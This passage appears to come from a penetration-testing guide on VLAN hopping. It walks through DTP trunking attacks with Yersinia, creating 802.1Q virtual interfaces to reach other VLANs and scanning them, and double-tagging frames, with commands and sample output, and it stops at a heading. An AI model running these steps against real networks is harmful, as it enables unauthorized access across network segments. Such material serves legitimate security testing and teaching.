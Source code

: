 If it was discovered that the the network is vulnerable, you can use _**Yersinia**_ to launch an "**enable trunking**" using protocol "**DTP**" and you will be able to see network packets from all the VLANs.

```bash
apt-get install yersinia #Installation
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"
```

#### Attacking specific VLANs

Once you known VLAN IDs and IPs values,you can **configure a virtual interface to attack a specific VLAN**.  
If DHCP is not available, then use _ifconfig_ to set a static IP address.

```text
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
          inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```

#### Automatic VLAN Hopper

The discussed attack of **Dynamic Trunking and creating virtual interfaces an discovering hosts inside** other VLANs are **automatically performed** by the tool: [https://github.com/nccgroup/vlan-hopping---frogger](https://github.com/nccgroup/vlan-hopping---frogger)

#### Double Tagging

If an attacker knows the value of the **MAC, IP and VLAN ID of the victim host**, he could try to **double tag a frame** with its designated VLAN and the VLAN of the victim and send a packet. As the **victim won't be able to connect back** with the attacker, so the **best option for the attacker is communicate via UDP** to protocols than can perform some interesting actions \(like SNMP\).

Another option for the attacker is to launch a **TCP port scan spoofing an IP controlled by the attacker and accessible by the victim** \(probably through internet\). Then, the attacker could sniff in the second host owned by him if it receives some packets from the victim.

#### Layer 3 Private VLAN Bypass
